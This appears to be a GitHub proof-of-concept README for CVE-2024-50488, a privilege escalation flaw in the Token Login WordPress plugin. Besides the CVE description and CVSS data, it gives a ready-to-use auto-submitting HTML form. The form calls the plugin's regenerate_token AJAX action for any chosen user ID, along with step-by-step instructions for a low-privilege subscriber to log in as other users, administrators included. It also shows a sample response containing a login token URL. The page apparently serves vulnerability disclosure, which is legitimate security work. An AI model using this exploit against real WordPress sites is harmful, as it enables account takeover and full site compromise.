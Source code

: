 # CVE-2024-50488
Token Login &lt;= 1.0.3 - Authenticated (Subscriber+) Privilege Escalation


# Description:
The Auto Login using a secure tokenized url. Role wise login restriction. plugin for WordPress is vulnerable to privilege escalation via account takeover in all versions up to, and including, 1.0.3. This is due to the plugin not properly verifying if a user has permissions to generate a login token for other users. This makes it possible for authenticated attackers, with subscriber-level access and above, to log in as other using including administrators.

```
Published: 2024-10-25 00:00:00
CVE: CVE-2024-50488
CVSS: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 8.8
Slugs: token-login
```

POC
---

Logged in run this HTML submit.
Change the url to the wordpress site your logged in on.
Change the ID to the user you want to generate the token for.
copy the url and you can login as them

```
<html>
  <body>
    <form action="http://kubernetes.docker.internal/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="tl&#95;admin&#95;ajax&#95;action" />
      <input type="hidden" name="method" value="regenerate&#95;token" />
      <input type="hidden" name="user&#95;id" value="7" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Responce

```
{"status":"success","message":"Successfully regenerated token!","token_url":"http:\/\/kubernetes.docker.internal?__token__=1c8dc9406bc444d1f5cea37fae130f92"}
```
